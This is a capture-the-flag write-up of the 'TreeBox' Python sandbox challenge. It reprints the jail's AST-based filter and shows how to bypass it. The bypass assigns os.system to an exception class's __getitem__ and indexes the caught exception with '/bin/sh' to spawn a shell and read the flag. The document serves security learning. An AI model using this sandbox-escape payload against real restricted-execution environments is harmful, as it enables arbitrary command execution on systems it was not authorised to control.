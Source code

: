 # TreeBox

## Challenge Description
**Category**: Sandbox

**Description**: I think I finally got Python sandboxing right.

![treeBoxImg](https://user-images.githubusercontent.com/80763028/178986252-7533e86c-db02-47ca-b146-ad5584c6a692.jpg)

The challenge was a pyjail-style sandbox, that needed to "escaped" from - regain the ability to execute arbitrary code (and read the flag file) given a VERY restrictive environment. As usual with pyjails, the source code was provided:

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

## Code Evaluation
Looking at the source code, the program checks the input code before executing it - only if the code is labeled 'safe' by ```verify_secure```,
that uses the ```ast``` library (**A**bstract **S**yntax **T**rees) to parse the input.

Essentially, both functions calls and import statements are banned, because they match either of ```ast.Call, ast.Import, ast.ImportFrom```

Notice how the input is being compiled (and executed if it passes ```verify_secure```) without any change to the available modules or builtins. This means that we have access to all of the variables and modules in the original program, including: ```os```, ```sys```, and ```ast```. We will exploit this later on.

Also, the program uses structured pattern matching, so we know that it is running on Python 3.10+

## Thought Process

While imports can be avoided, function calls are a fundemental part of any programming language.
At first glance, the objective of reading the flag without calling any function seems impossible.

This means that the challenge must be solved by:
1. Somehow managing to read the flag file without using calls or import statements (unlikely)
2. Figuring out a way to fool ```ast``` by calling functions indirectly, so it won't notice the function calls made by the program

As far as we know, it's impossible to access the file system or the shell without invoking any functions, so we tried to change the angle of thinking about this challenge to the second way.

We needed to find the 'trickable' part of the program, as a chain is only as strong as its weakest link.
A few options come to mind:
1. Python's match-case
2. ast parser

We didn't believe Python's match-case to be the weak part, as that would be a fatal flaw in Python itself, and probably not the intention of the challenge authors anyway (even though it is *possible*, see Python2's ```input()``` RCE vulnerability).

That leaves tricking the ast parser by calling functions indirectly (without invoking them using parentheses).

## Dunder Methods To the Rescue!

One way to achieve indirect function calls, is dunder (double underscore) methods. These are functions that help creating classes in Python, and are normally used in order to make contructors, overload operators change the behavior of Python built-in functions on the classe's objects, and more.

## Constructing a Solution Payload
At first, this doesn't seem to be of much help - to create an object (and invoke ```__init__``` or another dunder method).
After putting some thought into it, we came to realize that exceptions are classes too! A quick check reveals that it is possible to raise exceptions without any arguments.
Meaning:

```raise Exception``` is allowed, but ```raise Exception("Can I pass an argument?")``` would match to ```ast.Call```.

Knowing all of this, we can create (and raise) a custom exception (a class that inherits from ```Exception```), catch the exception
and get access to the exception object, already equipped with the dunder method we created.

So our theoretical payload would look something like this:
```python
class CustomException(Exception):
  pass # TODO: add a dunder method to use when handling the exception
  
 try:
   raise CustomException
 except CustomException as e:
   pass # TODO: use the exception object (e)
```

At this point, there are several approaches to what dunder method to use to inderectly call a function. One of the most common ones is to overload one of the operators, for example, the plus operator (+) using the ```__add__``` method.

We chose to use ```__getitem__```.
```__getitem__``` is the function that is being called when looking for a value that matches a key in a dictionary.

For instance, in the following code snippet, ```__getitem__``` is called to retrieve the value matching the key 'a':
```python
d = {'a': 1, 'b': 2}
d['a']
```
By overriding ```__getitem__``` in our custom exception with another function, we can get ANY function to execute with one argument - whatever we put in the square brackets as a 'key'.

Since the ```os``` module is loaded into the running namespace, we can override ```__getitem__``` with os.system and thus execute any shell command.

This brings us to the final attack payload:
```python
class CustomException(Exception):
	__getitem__ = os.system

try:
	raise CustomException
except CustomException as e:
	e["/bin/sh"]
--END
```
Which will end up executing: ```os.system("/bin/sh")```, providing us an unlimited shell.
```bash
$ cat flag
CTF{CzeresniaTopolaForsycja}
```

**P.S.** This challenge is probably the only time we were *delighted* to see an exception, instead of being frustrated :)

*Writeup by C0d3 Bre4k3rs: 5h4d0w (Om3rR3ich), N04M1st3r*

